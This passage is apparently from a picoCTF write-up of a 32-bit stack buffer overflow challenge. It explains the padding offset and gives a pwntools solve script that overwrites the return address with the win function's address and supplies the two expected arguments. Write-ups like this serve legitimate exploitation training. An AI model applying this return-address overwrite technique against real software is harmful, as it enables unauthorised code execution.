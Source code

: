 ```
Found at offset 8
```

Miraculously, they're only 4 bytes apart (right next to each other) and an offset of 4 from `win` (remember the breakpoint).
So all we have to do is send in 112 bytes, the address for win, a padding of 4 bytes, and then "0xcafef00d" and "0xf00df00d"

## Solve
```py
# solve.py
from pwn import *

p = remote('saturn.picoctf.net', 65381)

payload = b"A"*112 + p32(0x08049296) + b"A"*4 + \
    p32(0xcafef00d) + p32(0xf00df00d)

log.info(p.recvline())
p.sendline(payload)
log.info(p.recvall())

p.close()
```
